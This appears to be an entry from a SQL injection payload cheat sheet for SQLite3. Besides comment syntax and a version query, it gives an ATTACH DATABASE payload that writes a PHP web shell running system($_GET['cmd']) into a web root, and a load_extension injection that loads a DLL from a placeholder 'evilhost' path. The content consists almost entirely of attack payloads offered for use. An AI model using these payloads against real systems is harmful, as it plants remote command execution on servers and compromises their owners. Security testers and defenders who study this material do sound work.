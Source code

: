 SQLite3 Payload
=====================================

- Comment
- ``--``
- ``/**/``
- Version
- ``select sqlite_version();``


Command Execution

.. code-block:: sql

ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ('<?system($_GET['cmd']); ?>');--


Load_extension

``UNION SELECT 1,load_extension('\evilhostu001bvil.dll','E');--``
